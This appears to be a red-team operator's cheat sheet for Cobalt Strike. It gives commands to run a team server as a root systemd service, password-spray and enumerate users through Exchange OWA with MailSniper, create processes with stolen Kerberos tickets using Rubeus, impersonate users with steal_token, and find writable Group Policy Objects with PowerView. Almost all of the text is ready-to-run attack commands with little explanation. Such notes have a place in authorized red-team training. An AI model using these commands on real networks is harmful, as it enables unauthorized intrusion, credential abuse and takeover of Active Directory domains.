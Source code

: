 ### Starting the TeamServer
```
sudo ./teamserver <host-ip> <password> <c2-profile-path>
```

### Running TeamServer as Systemd service
`/etc/systemd/system/teamserver.service`
```
[Unit]
Description=Cobalt Strike Team Server
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=1
User=root
WorkingDirectory=<cobaltstrike-dir>
ExecStart=<teamserver-path> <host-ip> <password> <c2-profile-path>

[Install]
WantedBy=multi-user.target
```

## Initial Compromise
### MailSniper Password Spraying
#### Importing
`ipmo C:\Tools\MailSniper\MailSniper.ps1`

#### Enumerating NetBIOS name for domain
`Invoke-DomainHarvestOWA -ExchHostname <mailserver-hostname>`

#### Enumerating valid email users
`Invoke-UsernameHarvestOWA -ExchHostname <mailserver-hostname> -Domain <domain> -UserList <possible-names-path> -OutFile <outfile>`


### Kerberos

#### Enumerating TGTs on system
```
execute-assembly <C:\Rubeus\path> triage
```
#### Creating process with TGT
```
execute-assembly <C:\Rubeus\path> createnetonly /program:C:\Windows\System32\cmd.exe /domain:<domain> /username:<user> /password:FakePass /ticket:<tgt>
```

**User can then be impersonated with:**
`beacon> steal_token <pid>`

**Practical command**
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:<tgt>
```

### Group Policy Objects
#### Enumerating GPOs with exploitable properties
**Requires importing Powerview**
```
beacon> powershell Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "CreateChild|WriteProperty" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }
```

#### Resolving GPO Display name
```
beacon> powershell Get-DomainGPO -Identity <ObjectDN> | select displayName, gpcFileSysPath
```

#### Resolving Domain Group that GPO applies to
```
beacon> powershell ConvertFrom-SID <SID>
```